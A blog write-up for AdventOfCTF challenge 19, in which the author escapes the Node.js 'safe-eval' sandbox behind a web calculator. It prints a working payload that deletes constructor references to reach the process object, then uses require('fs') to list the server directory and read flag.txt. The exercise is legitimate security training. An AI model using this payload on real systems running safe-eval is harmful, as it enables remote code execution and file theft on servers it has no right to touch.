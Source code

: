+++
author = "Maik de Kruif"
title = "Safe?"
subtitle = "Challenge 19 - AdventOfCTF"
date = 2021-02-25T23:18:28+01:00
description = "A writeup for challenge 19 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/d80f13d1ab714f7864c2a9ef56c5f767.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1900

## Description

We found out that it was possible to insert Javascript code in the calculator. Oops! We found an awesome module to prevent against this abuse. Hopefully it is all better now. The flag is in flag.txt.

Visit <https://19.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

The description also states it was possible to enter javascript code, which we saw in the [previous challenge]({{% ref "writeups/adventofctf/2020/challenge_18.md" %}}), but that it has been fixed now.

## Finding the vulnerability

To verify what the description says, let's try to enter `res` in the input field. Sadly, it looks like it actually has been fixed as we now get the following error:

```text
evalmachine.<anonymous>:11
  SAFE_EVAL_521493=res
  ^

ReferenceError: res is not defined
    at evalmachine.<anonymous>:11:3
    at Script.runInContext (vm.js:133:20)
    at Script.runInNewContext (vm.js:139:17)
    at Object.runInNewContext (vm.js:322:38)
    at safeEval (/opt/app/node_modules/safe-eval/index.js:24:6)
    at /opt/app/server.js:13:11
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
```

When looking at this output, we can see that it uses the `safe-eval` module to evaluate the input.

I personally don't know this module so let's Google around a bit. Eventually, I found [this Github Issue](https://github.com/hacksparrow/safe-eval/issues/16#issuecomment-554301596) which talks about safe-eval not being so safe. Exactly what we need.

When scrolling down on the issue, we can see a comment with the following code:

```text
(
delete(this.constructor.constructor),delete(this.constructor),
this.constructor.constructor("return process")()
)
```

_Note: Sorry this code is not highlighted. If I do so, my formatter will mess it up..._

The comment has no further text in it so let's try entering the code. Don't forget to replace the double quotes (`"`) with single ones (`'`) though as, otherwise, the JSON will no longer be valid.

After making the request, the server returns the following string: `[object process]`. This means the code worked, and we can build an exploit on it.

## Exploit

Because we now have the `process` object, we can use it to require modules and execute code.

To read the directory contents of the sever, we can use the following code:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readdirSync('.');
})();
```

_Note: Again, not formatted as my formatter will replace the single quotes with double ones._

In this code, I used the `process` to get the `require` function. I did this so I could get access to the `fs` module to read the directory contents. This, in turn, is all wrapped by a [self-executing anonymous function](https://developer.mozilla.org/en-US/docs/Glossary/Self-Executing_Anonymous_Function) so I could use variables to make it easier.

The above code returns the following output:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Here we see the `flag.txt` file. Now let's read it using the `fs` module again:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readFileSync('flag.txt');
})();
```

## Solution

We got the flag! It is `NOVI{s@fe_eval_is_not_so_saf3}`.
